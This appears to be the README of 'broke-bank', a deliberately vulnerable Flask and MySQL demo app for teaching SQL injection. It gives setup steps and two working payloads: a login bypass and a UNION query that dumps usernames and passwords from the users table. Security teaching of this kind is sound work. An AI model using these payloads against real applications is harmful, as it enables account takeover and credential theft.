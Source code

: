 # broke-bank
SQL injection demonstraction built with Flask and MySQL.

# Setup

1. Clone repository
```shell
git clone https://github.com/anilmawji/broke-bank.git; cd broke-bank
```

2. Create and activate virtual environment (optional, recommended)
```shell
python -m venv .venv      # Create virtual environment
source .venv/bin/activate # On macOS/Linux
.venv\Scripts\activate    # On Windows
```

2. Install dependencies
```shell
pip install -r requirements.txt
```

3. Create .env file for environment variables
```env
FLASK_ENV=development
FLASK_APP=main.py
MYSQL_USER=username_here
MYSQL_PASSWORD=password_here
```

3. Start server (local deployment)
```shell
flask run
```

# SQL Injection Examples

User login bypass (make sure to include the space at the end!)
```sql
a' or 1=1 -- 
```
![image](https://github.com/user-attachments/assets/5fdf6609-cd84-4420-9c48-b4b0744d09fa)

Transaction history search bar - SQL version and user info dump
```sql
3' union select null, user_id, version(), username, user_password from users;
```
![image](https://github.com/user-attachments/assets/4fc1abf2-d018-4dde-b240-09147835e81a)


